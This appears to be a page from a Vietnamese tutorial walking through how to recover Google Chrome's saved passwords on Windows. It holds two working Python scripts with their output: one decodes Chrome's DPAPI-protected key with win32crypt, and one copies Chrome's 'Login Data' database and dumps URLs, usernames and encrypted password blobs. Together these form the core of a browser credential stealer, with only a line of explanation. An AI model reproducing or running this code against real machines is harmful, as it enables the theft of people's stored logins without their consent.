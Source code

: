 ## Secret key

```jsx
import base64
import win32crypt

encrypted_key = "RFLBUEkKAAAA0Iyd3wEV0RGMegDAT8KX6wEAAAD5Lvzarec7TblyzT2RNJN6EAAAABwAAABHAG8AbwBnAGwAZQAgAEMAaAByAG8AbQBlAAAAEGYAAAABAAAgAAAAxFvI6hLJ31byJ3v+XGtPyW2UaK6pLKnTPCAudjJLpV4AAAAADoAAAAACAAAgAAAA6znT2IWhQH+FN75GWzFcNI/1nezG2NqyXUSyeyEViBowAAAAg7rHMFCcTYPnhJExZ9tVfUa+9cZWceyaiOaRVYw8nbNr4XU2j4tgK/mvnygDlBQgQAAAABNfqqaoiZDuCjyuE8EZ06B1uBjN6JYq03b7W+tWaM144EnvUDbFEURp1md9Q6VBx4k3G4ZhP1/Bbxkn0k6tFvY="

# Giải mã base64
secret_key_b64 = base64.b64decode(encrypted_key)

# Loại bỏ tiền tố DPAPI
secret_key_b64 = secret_key_b64[5:]

# Giải mã DPAPI
secret_key = win32crypt.CryptUnprotectData(secret_key_b64, None, None, None, 0)[1]

# In độ dài của secret_key
print(len(secret_key))

# In secret_key
print(secret_key)

C:\python .\secret_key.py
32
b'\\\\7D\x7e+p\x9d\xd92[!H\x11]z\xacZ\x9d\xed\xe6\xe5\xe6\xaeE\x1b\x11\xd1\x4f:\x9a\xf5'
```

Ví dụ ta đã lấy được encrypted_key và code trên là quá trình chuyển từ encrypted_key thành Secret key

## **Ciphertext**

```jsx
import os
import shutil
import sqlite3

chrome_path = os.path.normpath(r"%s\AppData\Local\Google\Chrome\User Data\Default\Login Data"%(os.environ['USERPROFILE']))

shutil.copy2(chrome_path, "Loginvault.db") 
conn = sqlite3.connect("Loginvault.db")
cursor = conn.cursor() # Tạo con trỏ
cursor.execute("SELECT origin_url, username_value, password_value FROM logins")

for index,login in enumerate(cursor.fetchall()):
    print(f"URL: {login[0]}")
    print(f"username = {login[1]}")
    print(f"ciphertext = {login[2]}")
conn.close()

print(chrome_path)

C:\python .\ciphertext.py
URL: https://example.com
username = example@gmail.com
ciphertext = b'v10\x9be\xe4\x14{\x81\x1d\xf6\xf8\x98\xb1I4\x8c\xf8\xc1\xad\xd1\x9a\xcd\x9e\x90\xa8,1\xf3a\x08]\x195\xf2B\xccX\x8e_\x82\xf7q'
```